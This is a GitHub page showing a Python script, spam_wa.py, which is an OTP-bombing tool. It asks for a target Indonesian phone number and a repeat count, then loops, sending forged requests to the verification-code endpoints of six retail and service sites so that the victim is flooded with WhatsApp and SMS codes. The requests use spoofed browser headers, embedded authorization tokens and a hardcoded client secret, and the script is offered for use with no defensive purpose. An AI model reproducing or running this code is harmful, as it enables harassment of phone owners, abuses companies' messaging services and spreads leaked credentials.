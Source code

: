 # Spam_Wa
Skip to content
Search or jump to…
Pull requests
Issues
Codespaces
Marketplace
Explore
 
@AlfMan26 
GamalShine
/
Spam-Wa
Public
Code
Issues
Pull requests
Actions
Projects
Security
Insights
Spam-Wa/spam_wa.py /
@GamalShine
GamalShine Rename brutal.py to spam_wa.py
Latest commit e17c1eb 9 days ago
 History
 1 contributor
57 lines (51 sloc)  8.17 KB

import os,sys,time,os,json,requests,json
from colorama import Fore,Back,init
from requests import get,post
from urllib import request

def autoketik(s):
    for c in s + "\n":
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(0.008)

B = Fore.BLUE
W = Fore.WHITE
R = Fore.RED
G = Fore.GREEN
BL = Fore.BLACK
Y = Fore.YELLOW

ip=requests.get('https://api.ipify.org').text
visitor=request.urlopen('https://api.countapi.xyz/hit/brutal-spam-wa')
getvisit=json.loads(visitor.read())
localtime=time.asctime(time.localtime(time.time()))

hijau="\033[1;92m "
putih="\033[1;97m"
abu="\033[1;90m"
kuning="\033[1;93m"
ungu="\033[1;95m"
merah="\033[1;91m"
biru="\033[1;96m"

os.system("clear")
autoketik(f"""
{putih}\tGAMAL IN HERE BABYY :D\t
{hijau}╔═╗{merah}┌─┐┌─┐┌┬┐  {biru}╦ ╦┬ ┬┌─┐┌┬┐{putih}┌-┐{kuning}┌─┐┌─┐ ┌─┐
{hijau}╚═╗{merah}├─┘├─┤│││  {biru}║║║├─┤├─┤ │ {putih}└─┐{kuning}├─┤├─┘ ├─┘
{hijau}╚═╝{merah}┴  ┴ ┴┴ ┴  {biru}╚╩╝┴ ┴┴ ┴ ┴ {putih}└─┘{kuning}┴ ┴┴   ┴ {ungu}V1
{abu}-----------------------------------------
{putih}[{biru}•{putih}] {biru}Author {putih}   : Gamal Musthofa
{putih}[{biru}•{putih}] {abu}GitHub {putih}   : https://github.com/GamalShine
{putih}[{biru}•{putih}] {merah}You{putih}Tube {putih}  : Saranin dong
{putih}[{biru}•{putih}] {ungu}Instagram {putih}: @gamalmust
{W}[{Y}•{W}] Ip Kamu {putih}  :{Y} {ip}
{W}[{Y}•{W}] Waktu/Jam {putih}:{Y} {localtime}
{W}[{Y}•{W}] Total Run {putih}:{Y} {getvisit['value']}
""")

nomor = input(f"{W}[{R}• {kuning}•{hijau}•{W}] {biru}Nomor Target {W}: ")
jum = int(input(f"{W}[{R}• {kuning}•{hijau}•{W}] {biru}Jumlah {W}: "))
for i in range(jum):
    pos = requests.post("https://www.neo-promosindo.com/graphql/v1?deduplicate=1",headers={"Host":"www.neo-promosindo.com","content-length":"289","sec-ch-ua-mobile":"?1","authorization":"eyJhbGciOiJSUzI1NiIsImtpZCI6ImY4NDY2MjEyMTQxMjQ4NzUxOWJiZjhlYWQ4ZGZiYjM3ODYwMjk5ZDciLCJ0eXAiOiJKV1QifQ.eyJhbm9ueW1vdXMiOnRydWUsImF1ZCI6InNheXVyYm94LWF1ZGllbmNlIiwiYXV0aF90aW1lIjoxNjYyNjQwMTA4LCJleHAiOjE2NjUyMzIxMDgsImlhdCI6MTY2MjY0MDEwOCwiaXNzIjoiaHR0cHM6Ly93d3cuc2F5dXJib3guY29tIiwibWV0YWRhdGEiOnsiZGV2aWNlX2luZm8iOm51bGx9LCJuYW1lIjpudWxsLCJwaWN0dXJlIjpudWxsLCJwcm92aWRlcl9pZCI6ImFub255bW91cyIsInNpZCI6ImIwYjc1ZjI1LTllZmYtNDJjNS1hNmJiLWMyYjA3ZGI2YjVkOSIsInN1YiI6IllsNzB5YmtVWFl1dmstU3BTbkQ0ODlWX3NGOTIiLCJ1c2VyX2lkIjoiWWw3MHlia1VYWXV2ay1TcFNuRDQ4OVZfc0Y5MiJ9.DCYJRFjl-TTezyjXba-XLOOUK2ppvNBL--ETojGa_UauO0zyaaD090eFaMpglVThj-y3fbFany9eT1qx5y1olulqTGxExI1DsIVN8_Ds6cQuTPaYsBKFwgHZQSnKRkRAP3aEILhzRMsUUG7kwBJWCziTC9nGfBWl7tPwHoYmnerOzsSnTUjCnOfDphMuj_glxHsKDPtIUwie2xi00d0NhMDnc2kyrkJc8xer7XLXWJGzZVvI-3wl72VLcB1GmDVZKo-JX9tAhzO7lsGSXm9G0lSYKD_NUUMKbU7d4w_2Col3Lhu6E0ltyw4nmna8ssc0q8_ti1b9F-HL1GfRzTRa-g","content-type":"application/json","accept":"*/*","x-bundle-revision":"6.0","x-sbox-tenant":"sayurbox","x-binary-version":"2.2.1","user-agent":"Mozilla/5.0 (Linux; Android 9; Redmi 6A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","sec-ch-ua-platform":"Android","origin":"https://www.sayurbox.com","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"operationName":"generateOTP","variables":{"destinationType":"whatsapp","identity":"+62"+nomor},"query":"mutation generateOTP($destinationType: String!, $identity: String!) {\n  generateOTP(destinationType: $destinationType, identity: $identity) {\n    id\n    __typename\n  }\n}"})).text
    pos = requests.post("https://www.matahari.com/rest/V1/thorCustomers/registration-resend-otp",headers={"Host":"www.matahari.com","content-length":"76","x-newrelic-id":"Vg4GVFVXDxAGVVlVBgcGVlY=","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 9; Redmi 6A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","content-type":"application/json","accept":"*/*","x-requested-with":"XMLHttpRequest","sec-ch-ua-platform":"Android","origin":"https://www.matahari.com","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.matahari.com/customer/account/create/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"otp_request":{"mobile_number":nomor,"mobile_country_code":"+62"}})).text
    tod = requests.post("https://api.tokko.io/graphql",headers={"Host":"api.tokko.io","content-length":"306","accept-language":"id","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 9; Redmi 6A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","x-tokko-api-client":"merchant_web","content-type":"application/json","accept":"*/*","x-tokko-api-client-version":"4.5.1","sec-ch-ua-platform":"Android","origin":"https://web.lummoshop.com","sec-fetch-site":"cross-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://web.lummoshop.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"operationName":"generateOTP","variables":{"generateOtpInput":{"phoneNumber":"+62"+nomor,"hashCode":"","channel":"WHATSAPP","userType":"MERCHANT"}},"query":"mutation generateOTP($generateOtpInput: GenerateOtpInput!) {\n  generateOtp(generateOtpInput: $generateOtpInput) {\n    phoneNumber\n  }\n}\n"})).text
    kon = requests.post("https://api-v2.bukuwarung.com/api/v2/auth/otp/send",headers={"Host":"api-v2.bukuwarung.com","content-length":"198","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 9; Redmi 6A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","content-type":"application/json","x-app-version-name":"android","accept":"application/json, text/plain, */*","x-app-version-code":"3001","buku-origin":"tokoko-web","sec-ch-ua-platform":"Android","origin":"https://tokoko.id","sec-fetch-site":"cross-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://tokoko.id/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"action":"LOGIN_OTP","countryCode":"+62","deviceId":"test-1","method":"WA","phone":nomor,"clientId":"2e3570c6-317e-4524-b284-980e5a4335b6","clientSecret":"S81VsdrwNUN23YARAL54MFjB2JSV2TLn"})).text
    mek = requests.post("https://www.carsome.id/website/login/sendSMS",headers={"Host":"www.carsome.id","content-length":"38","x-language":"id","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 9; Redmi 6A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","content-type":"application/json","accept":"application/json, text/plain, */*","country":"ID","x-amplitude-device-id":"A4p3vs1Ixu9wp3wFmCEG9K","sec-ch-ua-platform":"Android","origin":"https://www.carsome.id","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.carsome.id/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"username":nomor,"optType":1})).text
    rupa = requests.post("https://wapi.ruparupa.com/auth/generate-otp",headers={"Host":"wapi.ruparupa.com","content-length":"117","sec-ch-ua-mobile":"?1","authorization":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiN2JjZTk0N2QtZTMwOS00YjYyLTk1NWItZTJkNTMyNWVmY2U5IiwiaWF0IjoxNjYyMzczNjM2LCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.FEO05D4v9bvaU-Kpgo4XvwbIWhbm3uamIDTCsRmm_Gs","content-type":"application/json","x-company-name":"odi","accept":"application/json","informa-b2b":"false","user-agent":"Mozilla/5.0 (Linux; Android 9; Redmi 6A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","user-platform":"mobile","x-frontend-type":"mobile","sec-ch-ua-platform":"Android","origin":"https://m.ruparupa.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://m.ruparupa.com/verification?page=otp-choices","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phone":nomor,"action":"register","channel":"chat","email":"","token":"","customer_id":"0","is_resend":0})).text
    print (f"{W}[{G}✓{W}] Success Sended Spam")
Footer
© 2022 GitHub, Inc.
Footer navigation
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
Spam-Wa/spam_wa.py at main · GamalShine/Spam-Wa
